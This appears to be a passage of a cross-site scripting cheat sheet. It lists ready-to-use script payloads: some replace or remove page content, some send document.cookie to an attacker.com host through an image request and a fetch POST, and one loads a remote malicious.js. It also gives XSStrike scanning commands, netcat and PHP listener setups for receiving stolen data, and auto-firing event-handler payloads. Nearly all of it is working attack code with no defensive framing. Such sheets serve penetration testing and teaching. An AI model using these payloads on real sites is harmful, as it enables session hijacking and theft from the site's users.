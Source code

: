 
## 🧩 DOM Manipulation

### Content Control
```html
<script>document.body.innerHTML = 'Page Replaced'</script>
<script>document.getElementById('element').remove()</script>
```

---

## 📡 External Interaction

### Data Exfiltration
```html
<script>new Image().src='http://attacker.com/?cookie='+document.cookie</script>
<script>fetch('http://attacker.com', {method: 'POST', body: document.cookie})</script>
```

### Remote Script Loading
```html
<script src="http://attacker.com/malicious.js"></script>
```

---

## ⚡ Useful Commands

### XSS Scanning
```bash
python xsstrike.py -u "http://target.com/page?param=test"
python xsstrike.py -r request.txt --fuzzer
```

### Server Setup
```bash
# HTTP Listener
sudo nc -lvnp 80
sudo php -S 0.0.0.0:80

# HTTPS Listener (for secure contexts)
sudo nc -lvnp 443
```

---

## 🎭 Event Handlers (No User Interaction)

### Auto-Execute Events
```html
<svg onload=alert(1)>
<body onpageshow=alert(1)>
<video onloadstart=alert(1)><source></video>
<audio oncanplay=alert(1)><source></audio>
```
